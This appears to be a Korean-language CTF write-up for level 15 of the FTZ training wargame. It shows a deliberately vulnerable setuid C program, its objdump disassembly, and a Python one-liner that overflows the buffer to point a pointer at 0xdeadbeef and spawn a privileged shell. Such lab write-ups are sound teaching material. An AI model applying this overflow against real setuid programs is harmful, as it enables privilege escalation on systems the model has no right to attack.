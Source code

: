 ```yaml
---
sort: 15
---
```


# Level 15

```note
id : level15

password : guess what
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 공격해보자.

```c
#include <stdio.h>
 
main()
{ int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
}
```

level14에서는 바로 값을 0xdeadbeef로 바꾸면 되었지만 level15에서는 0xdeadbeef가 위치한 주소값을 넣어야 한다.<br>
소스코드를 보면 `*check==0xdeadbeef`부분에 0xdeadbeef가 존재할 것으로 여겨진다.<br>
objdump를 이용하여 disassemble하면 기계어와 어셈블리어를 같이 보여준다.

<pre>
[level15@ftz level15]$ objdump -d ./attackme

08048490 <main>:
 8048490:	55                   	push   %ebp
 8048491:	89 e5                	mov    %esp,%ebp
 8048493:	83 ec 38             	sub    $0x38,%esp
 8048496:	83 ec 04             	sub    $0x4,%esp
 8048499:	ff 35 64 96 04 08    	pushl  0x8049664
 804849f:	6a 2d                	push   $0x2d
 <b>80484a1:	8d 45 c8             	lea    0xffffffc8(%ebp),%eax </b>
 80484a4:	50                   	push   %eax
 80484a5:	e8 b6 fe ff ff       	call   8048360 (_init+0x58)
 80484aa:	83 c4 10             	add    $0x10,%esp
 <b>80484ad:	8b 45 f0             	mov    0xfffffff0(%ebp),%eax </b>

 <b>80484b0:	81 38 ef be ad de    	cmpl   $0xdeadbeef,(%eax) </b>

 80484b6:	75 25                	jne    80484dd (main+0x4d)
 80484b8:	83 ec 08             	sub    $0x8,%esp
 80484bb:	68 18 0c 00 00       	push   $0xc18
 80484c0:	68 18 0c 00 00       	push   $0xc18
 80484c5:	e8 b6 fe ff ff       	call   8048380 (_init+0x78)
 80484ca:	83 c4 10             	add    $0x10,%esp
 80484cd:	83 ec 0c             	sub    $0xc,%esp
 80484d0:	68 48 85 04 08       	push   $0x8048548
 80484d5:	e8 66 fe ff ff       	call   8048340 (_init+0x38)
 80484da:	83 c4 10             	add    $0x10,%esp
 80484dd:	c9                   	leave  
 80484de:	c3                   	ret
</pre>

0x80484b2에 0xdeadbeef값이 존재하는 것을 확인할 수 있었다. 따라서 check에 0x80484b2를 넣으면 된다.

```bash
# padding 0x28 byte + 0x80484b2
[level15@ftz level15]$ (python -c "print('A'*0x28+'\xb2\x84\x04\x08\n')";cat) | ./attackme 
my-pass
```

```tip
## 알게 된 점

buffer overflow
```
